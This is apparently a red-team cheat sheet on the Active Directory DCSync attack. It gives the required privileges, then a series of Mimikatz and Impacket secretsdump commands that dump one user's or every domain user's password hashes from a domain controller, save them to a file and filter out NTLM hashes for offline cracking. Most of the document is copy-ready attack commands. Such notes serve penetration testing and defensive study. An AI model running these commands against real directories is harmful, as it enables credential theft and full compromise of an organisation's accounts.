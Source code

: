 #AD #Attack
## Info

- **Type:** Privilege Escalation / Active Directory Enumeration Attack    
- **Common Usage:** Used to extract password hashes (NTLM, Kerberos) from the domain controller without needing to directly access the domain controller.
- **Used By:** Attackers with sufficient permissions (Domain Admin or Enterprise Admin) to impersonate a domain controller.
- **Security Note:** Can be used to **dump credentials** for offline cracking, leading to full compromise of user accounts, especially **Domain Admins**.
## Prerequisites

- **Required Permissions:** The attacker must have **Domain Admin** or **Enterprise Admin** privileges, or **Replication rights** on the target domain controller.
- **Tools:**
    - **Mimikatz** (Most commonly used tool)
    - **[[Impacket]]'s `secretsdump.py`** (an alternative method)
## Mimikatz

### Run Mimikatz

```bash
mimikatz "privilege::debug" "sekurlsa::logonpasswords" "lsadump::dcsync /user:$TARGET_USER /domain:$DOMAIN /sid:$DOMAIN_SID"
```

- `privilege::debug`: Ensure you have high enough privileges to perform the attack.
- `sekurlsa::logonpasswords`: Displays current session's logon information (passwords, hashes).
- `lsadump::dcsync`: Simulates domain controller replication to dump the hashes of a specified user.
- `/user`: The target user whose hash you wish to extract.
- `/domain`: The domain name of the target.
- `/sid`: The SID of the domain (can be found using `net user /domain` or through `rpcclient`).

### Extract All User Hashes
```bash
mimikatz "privilege::debug" "lsadump::dcsync /domain:$DOMAIN /all"
```

- `all`: Fetches the hashes for **all users** in the domain.
### Target a Specific Domain Controller

```bash
mimikatz "privilege::debug" "lsadump::dcsync /domain:$DOMAIN /controller:$DC_IP"
```

- `/controller`: Specifies the domain controller to sync with for hashes.
## Impacket's `secretsdump`
### Basic Usage

```bash
impacket-secretsdump $DOMAIN/$USER:$PASSWORD@$IP -just-dc-user $TARGET_USER
```

- `$DOMAIN/$USER:$PASSWORD`: The attacker’s credentials (could also use NTLM hash).    
- `@$IP`: The target domain controller.
- `-just-dc-user`: Dumps only the specific target user's hash from the domain controller.

#### Extract All User Hashes

```bash
impacket-secretsdump $DOMAIN/$USER:$PASSWORD@$IP -outputfile hashes.txt
```

- This command will dump all user hashes from the domain controller. 
## Advanced Usage

### Save Output to File

```bash
mimikatz "privilege::debug" "lsadump::dcsync /domain:$DOMAIN /user:$USER /sid:$DOMAIN_SID" > hashes.txt
```
### Extract NTLM Hash for Further Cracking

```bash
mimikatz "privilege::debug" "lsadump::dcsync /user:$USER /domain:$DOMAIN" | grep -i "NTLM"
```

- This command filters the output to only show NTLM hashes.
### Impacket `secretsdump.py`

```bash
secretsdump.py -just-dc-user $TARGET_USER $DOMAIN/$USER:$PASSWORD@$IP
```

- This will extract the hashes of the specific user from the domain controller.